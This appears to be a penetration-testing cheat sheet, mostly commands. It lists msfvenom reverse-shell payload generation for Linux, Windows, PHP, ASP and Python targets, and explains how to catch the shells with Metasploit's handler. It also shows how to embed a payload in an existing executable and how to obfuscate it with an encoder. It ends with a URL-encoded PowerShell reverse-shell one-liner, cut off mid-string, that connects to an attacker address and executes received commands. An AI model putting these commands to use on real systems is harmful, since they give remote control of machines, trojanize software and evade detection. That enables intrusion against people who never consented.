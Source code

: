 ### [Msfvenom](https://www.offsec.com/metasploit-unleashed/msfvenom/):

use `exploit/multi/handler` to catch rev-shells

Default:
```
    msfvenom -p <PAYLOAD> <OPTIONS>
        -f <format> -> output format
        -o <file> -> output location and filename
        LHOST=<IP>
        LPORT=<port_number>

    payload naming convention: <OS>/<arch>/<payload>

        staged: denoted with forward slah -> shell/reverse_tcp
        stageless: denoted with _  -> shell_reverse_tcp
```
Linux:
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<port_number> -f elf > rev_shell.elf
```

Windows:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<port_number> -f exe > rev_shell.exe
```
PHP:
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<attack_ip> LPORT=<port_number> -f raw > rev_shell.php
```
ASP:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<attack_ip> LPORT=<port_number> -f asp > rev_shell.asp
```
Python:
```
msfvenom -p cmd/unix/reverse_python LHOST=<attack_ip> LPORT=<port_number> -f raw > rev_shell.py

msfvenom -p python/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -f raw > rev_shell.py
```
other usecases:
```
add msfvenom shell into an executable
    add options:
        -x <path_to_exe>
        -k

obfuscation:
    add option(example with "Shikata Ga Nai"):
        -e x86/shikata_ga_nai
```
### Powershell one-liner:
````powershell
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.
GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCI
````